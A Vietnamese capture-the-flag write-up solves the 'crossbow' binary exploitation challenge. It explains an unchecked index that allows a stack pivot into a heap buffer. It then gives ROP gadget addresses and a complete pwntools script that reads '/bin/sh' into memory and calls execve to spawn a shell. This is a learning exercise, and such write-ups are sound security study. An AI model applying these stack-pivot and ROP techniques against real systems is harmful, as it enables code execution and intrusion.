



## crossbow



Bài này binary chứa rất nhiều hàm thừa, ta chỉ cần quan tâm đến hàm `target_dummy`



Chương trình ở đây cho phép ta nhập số rồi tính toán vị trí của `v6` rồi sau đó tại biến `v6` đó chứa địa chỉ của `heap` chương trình vừa `malloc`.

Sau đó cho ta nhập dữ liệu vào `heap` đó

Ở đây do chương trình không kiểm tra số ta nhập vào nên ta có thể khai thác lỗi `bof`. Ý tưởng của mình là nhập số để cho sau khi tính toán thì `v6` = `$rbp` để khi return, ta sẽ `stack pivot` được đến vùng mà ta có thể nhập.

Do chương trình có rất nhiều hàm thừa nên ta có đủ các `ROP gadget`:

```python
pop_rax = p64(0x0000000000401001)
pop_rdi = p64(0x0000000000401d6c)
pop_rsi = p64(0x000000000040566b)
pop_rdx = p64(0x0000000000401139)
syscall = p64(0x0000000000405346)
pop_rsp = p64(0x00000000004018b5)
leave = p64(0x000000000040136c)
```

Tuy nhiên do chuỗi `/bin/sh` không có trong binary đồng thời địa chỉ heap thay đổi sau mỗi lần chạy nên ta không thể nào lấy được địa chỉ của chuỗi `/bin/sh` mà ta nhập vào. Vậy nên mình đã gọi hàm `Read()` để nhập chuỗi vào binary, từ đó ta có thể biết được địa chỉ của chuỗi. Sau đó dùng các `ROPgadget` để tạo shell thôi

```python

#!/usr/bin/python3

from pwn import *

p = process("./crossbow")
# p = gdb.debug("./crossbow",'''
#               b* 0x0000000000401263
#               b* 0x0000000000401326
#               b* 0x40136d
#               b* 0x00000000004013EA
#               c
#               ''')

pop_rax = p64(0x0000000000401001)
pop_rdi = p64(0x0000000000401d6c)
pop_rsi = p64(0x000000000040566b)
pop_rdx = p64(0x0000000000401139)
syscall = p64(0x0000000000405346)
pop_rsp = p64(0x00000000004018b5)
leave = p64(0x000000000040136c)

p.sendlineafter("Select target to shoot:", b"-2")
payload = p64(0x000000000040dbe0) #new rbp
payload += pop_rax
payload += p64(0x00)
payload += pop_rdi
payload += p64(0x00)
payload += pop_rsi
payload += p64(0x000000000040dbe0)
payload += pop_rdx
payload += p64(0x200)
payload += syscall
payload += leave

p.sendlineafter("> ",payload)
payload = p64(0x000000000040dbe0) #new rbp
payload += pop_rax
payload += p64(0x3b)
payload += pop_rsi
payload += p64(0x00)
payload += pop_rdi
payload += p64(0x000000000040dc30)
payload += pop_rdx
payload += p64(0x00)
payload += syscall
payload += p64(29400045130965551)

p.sendline(payload)
p.interactive()

```



Vậy ta đã tạo shell thành công